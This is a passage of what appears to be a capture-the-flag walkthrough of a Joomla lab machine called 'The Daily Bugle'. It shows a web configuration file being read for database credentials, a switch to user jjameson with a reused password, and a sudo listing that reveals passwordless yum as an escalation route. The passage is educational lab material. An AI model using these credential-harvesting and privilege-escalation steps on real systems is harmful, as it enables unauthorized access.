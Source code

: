 
We got something, let's check the configuration file.
```bash
bash-4.2$ cat /var/www/html/configuration.php    
cat /var/www/html/configuration.php    
<?php
class JConfig {
        public $offline = '0';
        public $offline_message = 'This site is down for maintenance.<br />Please check back again soon.';
        public $display_offline_message = '1';
        public $offline_image = '';
        public $sitename = 'The Daily Bugle';
        public $editor = 'tinymce';
        public $captcha = '0';
        public $list_limit = '20';
        public $access = '1';
        public $debug = '0';
        public $debug_lang = '0';
        public $dbtype = 'mysqli';
        public $host = 'localhost';
        public $user = 'root';
        public $password = 'REDACTED';
        public $db = 'joomla';
        public $dbprefix = 'fb9j5_';
        public $live_site = '';
        public $secret = 'UAMBRWzHO3oFPmVC';
        public $gzip = '0';
```

Change user to `jjameson`.
```bash
bash-4.2$ su jjameson
su jjameson
Password: REDACTED

[jjameson@dailybugle tmp]$ 
```

user.txt:
```bash
[jjameson@dailybugle ~]$ cat ~/user.txt
REDACTED
```

## Escalate

Check sudo priv.
```bash
[jjameson@dailybugle ~]$ sudo -l
Matching Defaults entries for jjameson on dailybugle:
    !visiblepw, always_set_home, match_group_by_gid, always_query_group_plugin,
    env_reset, env_keep="COLORS DISPLAY HOSTNAME HISTSIZE KDEDIR LS_COLORS",
    env_keep+="MAIL PS1 PS2 QTDIR USERNAME LANG LC_ADDRESS LC_CTYPE",
    env_keep+="LC_COLLATE LC_IDENTIFICATION LC_MEASUREMENT LC_MESSAGES",
    env_keep+="LC_MONETARY LC_NAME LC_NUMERIC LC_PAPER LC_TELEPHONE",
    env_keep+="LC_TIME LC_ALL LANGUAGE LINGUAS _XKB_CHARSET XAUTHORITY",
    secure_path=/sbin\:/bin\:/usr/sbin\:/usr/bin

User jjameson may run the following commands on dailybugle:
    (ALL) NOPASSWD: /usr/bin/yum
```
